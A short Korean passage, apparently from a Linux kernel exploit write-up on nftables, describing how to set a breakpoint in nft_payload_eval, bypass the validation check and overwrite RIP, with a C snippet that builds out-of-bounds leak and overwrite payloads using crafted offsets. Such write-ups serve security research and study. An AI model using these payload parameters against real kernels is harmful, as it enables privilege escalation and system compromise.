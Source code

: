 
이제 nft_payload_eval에 bp를 걸고 rip를 덮기 위한 친구를 찾아보자.


edit data는 순서를 반대로 바꿔서 확인해보았다.


valid 함수는 똑같은 함수를 사용하므로 똑같이 검사를 우회할 수 있다.


```c
if (type == LEAK)
        add_payload(r, NFT_PAYLOAD_NETWORK_HEADER, 1073741800, 0, 28, 192);
    else if (type == OVERWRITE)
        add_payload(r, NFT_PAYLOAD_NETWORK_HEADER, 0, 1073741800, 28, 192);
```


어떤 ret 주소를 참조하다가 죽는지 찾아보았다.

